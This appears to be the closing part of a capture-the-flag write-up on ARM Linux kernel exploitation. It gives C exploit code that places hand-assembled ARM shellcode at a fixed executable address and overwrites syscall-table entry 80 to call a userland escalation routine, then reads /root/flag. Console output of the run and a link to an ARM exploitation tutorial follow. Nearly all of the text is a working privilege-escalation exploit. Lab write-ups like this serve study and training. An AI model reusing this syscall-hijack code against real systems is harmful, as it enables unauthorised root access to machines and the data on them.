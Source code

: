 ```c

void *allocate_bridge_func()
{
    void *bridge_func, *ptr_userland_escalate;
    char bridge_func_body[] = {
        0x00, 0x48, 0x2d, 0xe9, // push {r11, lr}
        0x00, 0xb0, 0x8d, 0xe2, // add r11, sp, #0
        0x08, 0x20, 0x9f, 0xe5, // mov r2, [pc, #8]
        0x32, 0xff, 0x2f, 0xe1, // ldr r2
        0x00, 0xd0, 0x4b, 0xe2, // sub sp, r11, #0
        0x00, 0x88, 0xbd, 0xe8, // pop {r11, pc}
        0x41, 0x41, 0x41, 0x41  // fill with address of userland_escalate
    };
    ptr_userland_escalate = &userland_escalate;
    memcpy(&bridge_func_body[24], &ptr_userland_escalate, 4);

    bridge_func = mmap((void *)0x20202000, 0x1000, PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_FIXED | MAP_SHARED | MAP_LOCKED | MAP_POPULATE, -1, 0);
    if ((uint32_t) bridge_func == -1)
    {
        perror("[!] Failed to mmap");
        return NULL;
    }
    bridge_func += 0x20;

    memcpy(bridge_func, bridge_func_body, sizeof(bridge_func_body));
    return bridge_func;
}

int main()
{
    uint32_t **syscall_table;
    void *bridge_func;

    syscall_table = (uint32_t **)SYS_CALL_TABLE;
    bridge_func = allocate_bridge_func();
    if (!bridge_func)
        return -1;

    syscall(NR_SYS_UNUSED, &bridge_func, &syscall_table[80]);
    syscall(80);

    system("cat /root/flag");

    return 0;
}
```

```console
$ ./a.out 
[d] Before: 0x41414141
[d] After: 0x20202020
[d] Result of userland_escalate: 0
Co.....................//
```


## References:
- https://azeria-labs.com : Great tutorial about arm exploitation. I love the part about setting up a private lab.